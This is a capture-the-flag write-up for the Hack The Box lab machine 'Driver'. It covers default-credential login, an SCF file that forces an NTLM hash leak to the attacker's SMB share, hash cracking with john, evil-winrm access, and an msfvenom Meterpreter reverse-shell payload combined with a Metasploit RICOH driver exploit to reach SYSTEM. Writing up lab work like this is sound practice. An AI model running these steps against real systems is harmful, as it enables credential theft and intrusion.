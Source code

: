 # Driver

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.95.238
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 09:26 EDT
Nmap scan report for 10.129.95.238
Host is up (0.015s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman
```

Interestingly, WinRM is open.&#x20;

### SCF Exploit --> Creds

Port 80 requires credentials to access.

<figure><img src="../../../.gitbook/assets/image (1064).png" alt=""><figcaption></figcaption></figure>

I tested weak credentials of `admin:admin`, and it worked. The page is some type of printer service panel.

<figure><img src="../../../.gitbook/assets/image (3003).png" alt=""><figcaption></figcaption></figure>

The only working part is the Firmware Updates, which redirects us to this page:

<figure><img src="../../../.gitbook/assets/image (3892).png" alt=""><figcaption></figcaption></figure>

This would take any file and upload them to the file share, and a user would open it. Because it uploads to SMB, we can create a malicious SCF File to exploit this.

{% embed url="https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/" %}

This uses the SCF file to access our machine via SMB, and `responder` would capture the hash. Create an SCF file like so and start `responder`.&#x20;

```
[Shell]
Command=2
IconFile=\\10.10.14.13\share\pentestlab.ico
[Taskbar]
Command=ToggleDesktop
```

Once uploaded, `responder` would capture a hash:

<figure><img src="../../../.gitbook/assets/image (979).png" alt=""><figcaption></figcaption></figure>

This can be cracked easily:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash             
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2023-05-06 09:34) 100.0g/s 3276Kp/s 3276Kc/s 3276KC/s !!!!!!..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.
```

We can then log in using `evil-winrm` since port 5985 is open.

<figure><img src="../../../.gitbook/assets/image (787).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Printer Driver Exploit

I ran a WinPEAS scan to enumerate for me. While reading the output, we can see that there's Powershell history files:

<figure><img src="../../../.gitbook/assets/image (366).png" alt=""><figcaption></figcaption></figure>

Here's the file content:

```
*Evil-WinRM* PS C:\Users\tony\Documents> type C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

This, combined with the box name was a hint that we had to expoloit this specific driver somehow. I could only find Metasploit exploits, so let's use that. First we have to generate a Meterpreter reverse shell.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.13 LPORT=4444 -f exe -o meter.exe
```

Then, we need to upload it and start `exploit/multi/handler`.&#x20;

<figure><img src="../../../.gitbook/assets/image (2321).png" alt=""><figcaption></figcaption></figure>

Then, we need to first run `migrate -N explorer.exe` , then `background` this and use the `exploit/windows/local/ricoh_driver_privesc` module. Then, run the following:

```
set payload windows/x64/meterpreter/reverse_tcp
set LHOST tun0
set LPORT 5555
exploit
```

Afterwards, we would get a shell as the SYSTEM user.

<figure><img src="../../../.gitbook/assets/image (2684).png" alt=""><figcaption></figcaption></figure>

Rooted!

